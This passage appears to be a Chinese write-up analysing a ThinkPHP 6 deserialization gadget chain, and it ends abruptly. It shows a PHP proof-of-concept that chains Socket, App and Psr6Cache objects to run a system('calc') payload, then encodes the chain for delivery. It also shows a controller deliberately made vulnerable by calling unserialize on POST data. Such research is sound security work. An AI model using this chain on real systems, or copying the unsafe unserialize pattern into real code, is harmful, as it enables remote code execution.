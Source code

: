 ```plain
        public function __construct(){
            $this->url = '<?php system(\'calc\'); exit(); ?>';
        }
    }
    class App{
        protected $instances = [];
        public function __construct(){
            $this->instances = ['think\Request'=>new Request()];
        }
    }
}

namespace think\view\driver{
    class Php{}
}

namespace think\log\driver{

    class Socket{
        protected $config = [];
        protected $app;
        public function __construct(){

            $this->config = [
                'debug'=>true,
                'force_client_ids' => 1,
                'allow_client_ids' => '',
                'format_head' => [new \think\view\driver\Php,'display'],
            ];
            $this->app = new \think\App();

        }
    }
}

namespace{
    $c = new think\log\driver\Socket();
    $b = new think\log\Channel($c);
    $a = new League\Flysystem\Cached\Storage\Psr6Cache($b);
    echo urlencode(base64_encode(serialize($a)));
}
```

### 分析

在 Index.php 添加反序列化点：

```plain
<?php
namespace app\controller;

use app\BaseController;

class Index extends BaseController
{
    public function index(){
        if($_POST["a"]){
            unserialize(base64_decode($_POST["a"]));
        }
        return "hello";
    }

    public function hello($name = 'ThinkPHP6')
    {
```